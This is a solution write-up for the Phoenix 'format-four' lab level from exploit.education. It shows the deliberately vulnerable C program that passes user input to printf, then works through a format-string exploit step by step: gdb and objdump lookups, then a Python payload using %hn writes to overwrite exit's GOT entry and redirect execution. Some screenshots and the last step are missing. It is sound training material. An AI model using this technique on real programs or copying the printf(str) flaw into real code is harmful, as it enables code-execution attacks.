



# Format Four

```c
/*
 * phoenix/format-four, by https://exploit.education
 *
 * Can you affect code execution? Once you've got congratulations() to
 * execute, can you then execute your own shell code?
 *
 * Did you get a hair cut?
 * No, I got all of them cut.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

void bounce(char *str) {
  printf(str);
  exit(0);
}

void congratulations() {
  printf("Well done, you're redirected code execution!\n");
  exit(0);
}

int main(int argc, char **argv) {
  char buf[4096];

  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);
}
```

## Solution

1. The vulnerability is the same as [format_three](format_three.md), but this time we must write a specific value.
2. `` python -c 'print("AAAA" + "%p_"*15)' | /opt/phoenix/i486/format-four ``
    - 
    - Our string is the 12th argument
3. Finding what pointer to put as the string:
    - `gdb /opt/phoenix/i486/format-four`
    - We want to overwrite the location holding the pointer to `exit(0)`.
    - `disass bounce`
    - `b *bounce+23`
    - 
    - `0x08048330` is the address in the plt. We need the actual address in the got.plt
    - 
    - `0x080497e4` is the address of the exit function call in the got.plt
4. the value to write:
    - `objdump -t /opt/phoenix/i486/format-four | grep "congratulations"`
    - 
5. So now we have everything we need to write `0x08048503` to the address `0x080497e4`.
6. Writing `0x08048503` characters to stdout for our `%n` operation could take awhile, so it's easier to break this out into two writes. One for the first 2 bytes and one for the second 2 bytes. We can do this with the `%hn` operator writing a half word.
    - `0x0804` = 2052
    - `0x8503` = 34051
7. `` python -c 'print("\xe6\x97\x04\x08AAAA\xe4\x97\x04\x08" + "%200x"*10 + "%40x" + "%hn" + "%31999x" + "%hn")' | /opt/phoenix/i486/format-four ``
    - `\xe6\x97\x04\x08` is the target address +2 bytes i.e. the 2 most significant bytes in the target.
    - `AAAA` This is padding because since we are doing two writes and they aren't the same value we need to make space for a parameter to increase the number of bytes we are writing.
    - `\xe4\x97\x04\x08` The target address.
    - `"%200x"*10 + "%40x"` = 200*10 + 40 = 2040. Since we already wrote 12 bytes with the 3 previous bullets we get 2040 +12 = 2052. i.e. the number of bytes we want to write for to get `0x0804`
    - `"%hn"` writes the value 2052 to `\xe6\x97\x04\x08`
    - `"%31999x"` adds 31999 to 2052 to make 34051. i.e. the number of bytes we need to write to make `0x8503`.
    - `"%hn"` writes that value `0x8503` to the address `\xe4\x97\x04\x08`.
8. 